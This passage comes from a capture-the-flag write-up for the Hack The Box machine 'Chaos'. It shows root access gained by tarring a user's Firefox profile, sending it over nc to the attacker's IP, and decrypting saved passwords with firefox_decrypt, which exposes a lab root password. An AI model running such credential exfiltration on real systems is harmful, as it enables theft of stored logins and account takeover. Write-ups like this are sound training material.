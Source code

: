 <figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

### Mozilla Creds -> Root

The `ayush` user has a `.mozilla` folder present in their home directory:

```
$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Aug  5 05:51 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Aug  5 05:51 .gnupg
drwx------ 3 ayush ayush 4096 Aug  5 05:30 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Aug  5 05:19 user.txt
```

This could mean that there are Firefox credentials cached within the machine. We can use this repository to decrypt the passwords within:

{% embed url="https://github.com/unode/firefox_decrypt" %}

To use it, we need to zip up the entire `.mozilla` folder and transfer it to our machine via `nc`:

```bash
tar -czvf mozilla.tar.gz .mozilla
## On kali
$ nc -l -p 4444 > mozilla.tar.gz

## on ayush
nc -w 3 10.10.14.4 4444 < mozila.tar.gz
```

Then, we can extract the files and use `jiujitsu` again to decrypt the `root` password:

```
$ tar -xf mozilla.tar.gz
$ python3 firefox_decrypt.py ~/htb/chaos/.mozilla/firefox/bzo7sjt1.default
2023-08-05 14:02:03,327 - WARNING - profile.ini not found in /home/kali/htb/chaos/.mozilla/firefox/bzo7sjt1.default
2023-08-05 14:02:03,327 - WARNING - Continuing and assuming '/home/kali/htb/chaos/.mozilla/firefox/bzo7sjt1.default' is a profile location

Primary Password for profile /home/kali/htb/chaos/.mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
